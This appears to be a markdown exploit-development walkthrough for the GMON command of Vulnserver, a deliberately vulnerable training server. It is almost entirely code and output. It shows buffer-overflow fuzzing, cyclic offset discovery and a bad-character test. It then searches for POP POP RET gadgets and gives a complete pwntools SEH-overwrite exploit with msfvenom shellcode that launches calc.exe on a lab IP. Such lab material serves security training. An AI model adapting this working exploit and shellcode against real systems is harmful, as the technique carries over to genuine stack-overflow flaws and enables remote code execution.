






# Vulnserver GMON

```py
In [1]: r = remote('192.168.122.186', 9999)
   ...: r.readline()
   ...: 
[x] Opening connection to 192.168.122.186 on port 9999
[x] Opening connection to 192.168.122.186 on port 9999: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 9999: Done
Out[1]: b'Welcome to Vulnerable Server! Enter HELP for help.\n'

In [2]: r.writeline('GMON /.:/' + 'A'*5100)
```

```py
In [3]: r = remote('192.168.122.186', 9999)
   ...: r.readline()
   ...: 
[x] Opening connection to 192.168.122.186 on port 9999
[x] Opening connection to 192.168.122.186 on port 9999: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 9999: Done
Out[3]: b'Welcome to Vulnerable Server! Enter HELP for help.\n'

In [4]: r.writeline(b'GMON /.:/' + cyclic(5100))
```







```py
In [8]: cyclic_find(0x676a6261)
Out[8]: 3519
```

```py
In [17]: r = remote('192.168.122.186', 9999)
    ...: r.readline()
    ...: 
[x] Opening connection to 192.168.122.186 on port 9999
[x] Opening connection to 192.168.122.186 on port 9999: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 9999: Done
Out[17]: b'Welcome to Vulnerable Server! Enter HELP for help.\n'

In [18]: r.writeline(b'GMON /.:/' + b'A' * 3515 + b'BBBB' + b'CCCC' + b'A' * (5100-3515-4-4))
```



```py
In [22]: r = remote('192.168.122.186', 9999)
    ...: r.readline()
    ...: 
[x] Opening connection to 192.168.122.186 on port 9999
[x] Opening connection to 192.168.122.186 on port 9999: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 9999: Done
Out[22]: b'Welcome to Vulnerable Server! Enter HELP for help.\n'

In [23]: payload = bytes(range(1, 256))
    ...: r.writeline(b'GMON /.:/' + payload + b'A'*(3515-len(payload)) + b'BBBB' + b'CCCC' + b'A'*(5100-3
    ...: 515-4-4))
    ...:
```



```
$ ropper -f ./essfunc.dll -p  


POP;POP;RET Instructions
========================


0x625010b4: pop ebx; pop ebp; ret; 
0x625011b3: pop eax; pop eax; ret; 
0x625011bf: pop ebx; pop ebx; ret; 
0x625011cb: pop ebp; pop ebp; ret; 
0x625011d7: pop ebx; pop ebx; ret; 
0x625011e3: pop ecx; pop edx; ret; 
0x625011ef: pop ecx; pop eax; ret; 
0x625011fb: pop eax; pop edx; ret; 
0x6250120b: pop ecx; pop ecx; ret; 
0x6250160a: pop esi; pop ebp; ret; 
0x6250172b: pop edi; pop ebp; ret; 
0x6250195e: pop edi; pop ebp; ret; 

12 gadgets found
```

```py
#!/usr/bin/env python3

from pwn import *


nop = b'\x90' * 64

# msfvenom -p windows/exec -b '\x00' -f py CMD=calc.exe EXITFUNC=seh
buf =  b"\xda\xd3\xd9\x74\x24\xf4\x5a\xbe\x0c\x6b\xb6\xf7\x31"
buf += b"\xc9\xb1\x31\x31\x72\x18\x03\x72\x18\x83\xea\xf0\x89"
buf += b"\x43\x0b\xe0\xcc\xac\xf4\xf0\xb0\x25\x11\xc1\xf0\x52"
buf += b"\x51\x71\xc1\x11\x37\x7d\xaa\x74\xac\xf6\xde\x50\xc3"
buf += b"\xbf\x55\x87\xea\x40\xc5\xfb\x6d\xc2\x14\x28\x4e\xfb"
buf += b"\xd6\x3d\x8f\x3c\x0a\xcf\xdd\x95\x40\x62\xf2\x92\x1d"
buf += b"\xbf\x79\xe8\xb0\xc7\x9e\xb8\xb3\xe6\x30\xb3\xed\x28"
buf += b"\xb2\x10\x86\x60\xac\x75\xa3\x3b\x47\x4d\x5f\xba\x81"
buf += b"\x9c\xa0\x11\xec\x11\x53\x6b\x28\x95\x8c\x1e\x40\xe6"
buf += b"\x31\x19\x97\x95\xed\xac\x0c\x3d\x65\x16\xe9\xbc\xaa"
buf += b"\xc1\x7a\xb2\x07\x85\x25\xd6\x96\x4a\x5e\xe2\x13\x6d"
buf += b"\xb1\x63\x67\x4a\x15\x28\x33\xf3\x0c\x94\x92\x0c\x4e"
buf += b"\x77\x4a\xa9\x04\x95\x9f\xc0\x46\xf3\x5e\x56\xfd\xb1"
buf += b"\x61\x68\xfe\xe5\x09\x59\x75\x6a\x4d\x66\x5c\xcf\xaf"
buf += b"\x97\x6d\xc5\x38\x0e\x04\xa4\x24\xb1\xf2\xea\x50\x32"
buf += b"\xf7\x92\xa6\x2a\x72\x97\xe3\xec\x6e\xe5\x7c\x99\x90"
buf += b"\x5a\x7c\x88\xf2\x3d\xee\x50\xdb\xd8\x96\xf3\x23"

jmp = asm('jmp short $+8') + b'\x90\x90' # \xeb\x06\x41\x41

# 0x625011b3: pop eax; pop eax; ret; 
ppr = p32(0x625011b3)

exe =  asm('push esp')      # \x54
exe += asm('pop eax')       # \x58
exe += asm('add ax, 0x5b0') # \x66\x05\xb0\x05 
exe += asm('jmp eax')       # \xff\xe0

payload =  nop + buf
payload += b'A'*(3515-len(nop)-len(buf))
payload += jmp # nseh
payload += ppr # seh
payload += exe
payload += b'A'*(5100-3515-4-4-len(exe))

r = remote('192.168.122.186', 9999)
r.readline()

r.writeline(b'GMON /.:/' + payload)
r.close()
```

```
$ ./exploit.py
[+] Opening connection to 192.168.122.186 on port 9999: Done
[*] Closed connection to 192.168.122.186 port 9999
```


